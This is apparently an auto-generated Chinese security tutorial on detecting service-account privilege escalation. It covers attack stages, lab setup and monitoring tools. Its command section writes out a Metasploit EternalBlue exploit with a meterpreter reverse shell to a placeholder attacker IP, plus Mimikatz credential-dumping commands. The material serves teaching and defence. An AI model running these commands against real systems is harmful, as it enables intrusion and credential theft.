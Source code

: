# 服务账号提权攻击的检测与监控

## 1. 技术原理解析

### 1.1 服务账号提权攻击概述
服务账号提权攻击是指攻击者通过利用服务账号的权限漏洞或配置不当，提升自身权限，从而获得对系统或应用程序的更高控制权。服务账号通常用于运行后台服务或应用程序，其权限较高，一旦被攻击者利用，可能导致严重的安全后果。

### 1.2 底层实现机制
服务账号提权攻击的底层实现机制主要包括以下几个方面：

1. **权限滥用**：服务账号通常具有较高的权限，攻击者通过滥用这些权限，执行未经授权的操作。
2. **配置漏洞**：服务账号的配置不当，如弱密码、未限制的访问权限等，为攻击者提供了可乘之机。
3. **提权漏洞**：操作系统或应用程序中的提权漏洞，如缓冲区溢出、DLL注入等，被攻击者利用以提升权限。

### 1.3 攻击流程
1. **信息收集**：攻击者通过扫描和枚举，收集目标系统的服务账号信息。
2. **权限获取**：利用弱密码、配置漏洞或提权漏洞，获取服务账号的访问权限。
3. **权限提升**：通过滥用服务账号的权限，执行提权操作，获得更高权限。
4. **持久化**：在系统中植入后门或恶意软件，确保攻击者能够长期控制目标系统。

## 2. 变种和高级利用技巧

### 2.1 变种攻击
1. **横向移动**：攻击者在获取一个服务账号的权限后，利用该账号在网络中横向移动，攻击其他系统。
2. **权限继承**：通过继承服务账号的权限，攻击者能够执行更高权限的操作。
3. **特权提升**：利用操作系统或应用程序中的特权提升漏洞，直接提升权限。

### 2.2 高级利用技巧
1. **DLL注入**：通过注入恶意DLL到服务进程中，攻击者能够执行任意代码。
2. **内存篡改**：通过篡改服务进程的内存，攻击者能够修改程序行为，实现提权。
3. **凭证窃取**：利用工具如Mimikatz，窃取服务账号的凭证，进一步扩大攻击范围。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 攻击步骤
1. **信息收集**：使用工具如Nmap、Metasploit，扫描目标系统，收集服务账号信息。
2. **权限获取**：利用弱密码或配置漏洞，获取服务账号的访问权限。
3. **权限提升**：通过滥用服务账号的权限，执行提权操作。
4. **持久化**：在系统中植入后门或恶意软件，确保长期控制。

### 3.2 实验环境搭建指南
1. **虚拟机环境**：使用VMware或VirtualBox搭建Windows和Linux虚拟机，模拟目标系统。
2. **服务配置**：在虚拟机中配置服务账号，设置弱密码和不当权限。
3. **工具安装**：安装Nmap、Metasploit、Mimikatz等工具，用于攻击和检测。

## 4. 检测与监控方法

### 4.1 检测方法
1. **日志分析**：定期分析系统日志，查找异常登录和权限变更记录。
2. **行为监控**：监控服务账号的行为，如异常进程启动、文件访问等。
3. **漏洞扫描**：使用漏洞扫描工具，定期扫描系统，发现和修复提权漏洞。

### 4.2 监控工具
1. **SIEM系统**：使用SIEM（安全信息和事件管理）系统，集中监控和分析安全事件。
2. **EDR解决方案**：部署EDR（端点检测和响应）解决方案，实时监控和响应端点威胁。
3. **开源工具**：使用开源工具如OSSEC、Osquery，进行日志分析和行为监控。

## 5. 实际命令、代码或工具使用说明

### 5.1 Nmap扫描
```bash
nmap -sV -p 1-65535 <target_ip>
```
- `-sV`：版本检测
- `-p 1-65535`：扫描所有端口

### 5.2 Metasploit利用
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <attacker_ip>
exploit
```
- `ms17_010_eternalblue`：利用EternalBlue漏洞
- `RHOSTS`：目标IP
- `PAYLOAD`：攻击载荷
- `LHOST`：攻击者IP

### 5.3 Mimikatz凭证窃取
```bash
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```
- `privilege::debug`：提升权限
- `sekurlsa::logonpasswords`：窃取登录凭证

### 5.4 OSSEC日志分析
```bash
ossec-logtest
```
- `ossec-logtest`：测试和分析日志

### 5.5 Osquery行为监控
```sql
SELECT * FROM processes WHERE name = 'malicious_process';
```
- `SELECT * FROM processes`：查询进程信息
- `WHERE name = 'malicious_process'`：过滤恶意进程

## 6. 总结
服务账号提权攻击是一种严重的安全威胁，通过深入理解其技术原理和攻击流程，结合有效的检测与监控方法，能够有效防御此类攻击。在实际操作中，应定期进行安全审计和漏洞扫描，确保系统和服务账号的安全性。

---

*文档生成时间: 2025-03-14 11:35:39*
